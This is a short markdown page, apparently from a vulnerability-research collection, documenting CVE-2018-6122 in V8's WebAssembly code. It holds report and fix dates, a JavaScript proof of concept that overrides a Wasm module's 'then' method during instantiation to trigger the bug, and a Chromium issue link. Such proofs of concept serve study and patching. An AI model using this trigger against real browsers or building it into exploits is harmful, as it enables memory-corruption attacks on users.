 # CVE-2018-6122

- Report: APr 2018
- Fix: Apr 2018

## PoC

```javascript
load('test/mjsunit/wasm/wasm-constants.js');
load('test/mjsunit/wasm/wasm-module-builder.js');
const builder = new WasmModuleBuilder();
builder.addMemory(16, 32);
builder.addFunction("test", kSig_i_v).addBody([
  kExprI32Const, 12,         // i32.const 0
]);
let bla = 0;
let module = new WebAssembly.Module(builder.toBuffer());
module.then = (resolve) => {
  return resolve(0x41414141);
};
WebAssembly.instantiate(module);
```

## Reference

- [Issue](https://crbug.com/836141)
